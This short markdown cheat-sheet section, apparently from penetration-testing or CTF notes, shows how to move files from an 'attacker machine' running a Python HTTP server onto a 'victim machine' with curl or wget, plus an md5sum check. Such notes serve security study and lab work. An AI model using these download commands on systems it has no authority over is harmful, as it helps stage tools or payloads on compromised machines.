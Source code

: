 # 2 file transfer

- Attacker machine.
```shell
python3 -m http.server 8888
```

- Victim machine using curl.
```shell
curl http://me:8888/filename -o filename	
```

- Victim machine using wget.
```shell
wget http://me:8888/filename -O filename
```

- Check integrity after file transfer using

```shell
md5sum file
```


